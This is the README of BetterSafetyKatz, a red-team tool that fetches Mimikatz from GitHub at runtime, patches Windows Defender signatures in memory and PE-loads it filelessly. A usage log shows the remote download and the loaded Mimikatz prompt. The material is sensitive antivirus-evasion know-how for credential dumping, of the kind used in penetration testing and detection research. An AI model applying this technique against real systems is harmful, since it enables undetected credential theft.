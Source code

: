 # BetterSafetyKatz?

This modified fork of SafetyKatz dynamically fetches the latest pre-compiled release of Mimikatz directly from the gentilkiwi GitHub repo, 
runtime patching on detected signatures and uses @subtee's PE Loader to get it into memory.

1. Gets the URL for the latest ZIP / PreCompiled Mimikatz binary directly from GitHub Repo
2. Unzipped in memory, turned into HEX. Then strings/signatures detected by Windows Defender are replaced with random strings of the same size 
    (Spent ~6 hours using https://github.com/matterpreter/DefenderCheck mapping signatures to replace)
3. PE-Loaded into mem using @subtee POC (Added delays between mapping of DLLs-> Functions , Windows Defender thought it was to fast..)


Credits to [@Mrtn9](https://twitter.com/Mrtn9) for his collab on this!

[@harmj0y](https://twitter.com/harmj0y) is the primary author of the port that this repo is forked from.

BetterSafetyKatz is licensed under the BSD 3-Clause license.

## Usage

    PS D:\Projects\SafetyKatz\SafetyKatz\bin\Debug> .\SafetyKatz.exe                                                      
	
	[+] Stolen from @harmj0y, @subtee and @gentilkiwi, repurposed by @Flangvik and @Mrtn9
	[+] Contacting gentilkiwi -> https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20200502/mimikatz_trunk.zip
	[+] Randomizing strings in memory
	[+] Mapping DLL Ptrs into memory, but doing it sloooooowly (10 sec tops)
	[+] Executing loaded Mimikatz PE

	  .#####.   I7HC7OQ4 2.2.0 (x64) #18362 May  2 2020 16:23:51
	 .## ^ ##.  "CY76SIXX8WBAQF6XOOD" - (WMW0I)
	 ## / \ ##  /*** 1JKD5SDQM0EOSP `XGOPX1Y6CK` ( S9NK2HO6@XGOPX1Y6CK.com )
	 ## \ / ##       > http://blog.XGOPX1Y6CK.com/I7HC7OQ4
	 '## v ##'       P26TMNHP22ZGVUF             ( 45F6XVOMFTRJL6BXRNB86A5W )
	  '#####'        > KMPG3ATJL9YDWTE9SYW0Z / D14BS2FKVSL0DZA4VOONS7K   ***/

	I7HC7OQ4 # coffee

		( (
		 ) )
	  .______.
	  |      |]
	  \      /
	   `----'

	I7HC7OQ4 #


